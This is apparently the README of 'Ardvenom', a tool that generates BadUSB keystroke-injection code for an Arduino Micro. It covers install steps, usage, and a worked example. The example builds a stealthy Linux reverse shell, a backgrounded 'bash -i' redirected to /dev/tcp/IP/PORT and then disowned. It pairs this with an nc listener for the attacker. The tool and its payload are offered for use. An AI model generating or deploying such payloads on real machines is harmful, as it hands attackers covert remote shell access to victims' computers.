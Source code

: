 # Ardvenom

A tool that auto generate badUSB like code for Arduino Micro code.

## Installation
### Requirements
Debian
```bash
apt-get install arduino arduino-cli
```
Arch
```bash
pacman -S arduino arduino-cli
```
### Preparation
add user to uucp group
```
sudo usermod -a -G uucp USERNAME
```
enter group to skip reboot
```bash
newgrp uucp
```

## Usage

Plug your Arduino Micro using USB cable.
![arduino](https://github.com/j4ckst0ne37/Ardvenom/blob/main/arduino.jpg?raw=true)

Run ardvenom.py
```bash
./ardvenom.py -o OS -l KEYBOARD_LAYOUT -c CMD
```
## Example

To make a simple reverse-shell for a Linux target.

```bash
./ardvenom.py -o linux -l qwerty -c "nohup bash -i >& /dev/tcp/IP/PORT 0>&1 > /dev/null & disown && exit"
```
In the other side
```bash
nc -vnlp PORT
```

## License
[MIT](https://choosealicense.com/licenses/mit/)

